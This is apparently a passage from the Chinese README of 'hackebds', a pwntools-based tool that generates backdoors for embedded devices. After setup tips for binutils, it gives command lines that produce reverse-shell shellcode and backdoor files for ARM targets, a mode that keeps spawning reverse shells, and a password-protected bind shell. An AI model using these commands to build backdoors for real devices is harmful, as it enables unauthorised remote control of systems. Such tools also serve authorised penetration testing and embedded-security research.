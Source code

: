 出现python如下图问题请安装对应的binutils环境，在github的readme中有mac的下载方法，debian使用apt安装即可

如果出现如下的错误

![image-20221118202002242](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png)

请使用如下命令解决
```
ubuntu（debian）
	apt search binutils | grep arm(这里的arm可以更换需要的对应架构如果搜索不到可以先执行apt update)
	apt install binutils-arm-linux-gnueabi/hirsute
 MacOS:
 	 https://github.com/Gallopsled/pwntools-binutils
 	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb
```
如果出现如下错误

hackebds: error: argument -model: expected one argument

请将各个参数都设置成小写或者小写与大写混合的形式，猜测是由于python与bash对于大小字母解释冲突的原因

### 怎么使用

这里的ip地址与端口都是shell弹回的地址与port，导入此模块后pwn模块也会直接导入，无需再次导入
#### 1. 生成对应各种架构的后门程序，纯shellcode封装（无需编译器的加入），回连shell成功概率大
32为程序bind_shell中密码最多4个字符，64位程序最多8个字符
使用命令行生成后门文件名、shellcode、binshell，cmd_file等
 ![image-20221206180431454](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode
   ```

   ![image-20221102181217933](https://img-blog.csdnimg.cn/img_convert/8571f33df56a35983e368c777141ad54.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
​	默认创建反向shell后门是使用的sh，如果需要bash（PS：这里需要目标设备上存在bash命令）

```
hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash
```

​	如果需要生成后门不断地创建反向shell（测试占用CPU大概是%8左右）

```
hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power
```

![image-20221102183017775](https://img-blog.csdnimg.cn/img_convert/660574b30d7ae810cc7b0d96a3a60bd2.png)

   ```
   hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231
   
   ```
​	创建bind_shell监听shell为sh   

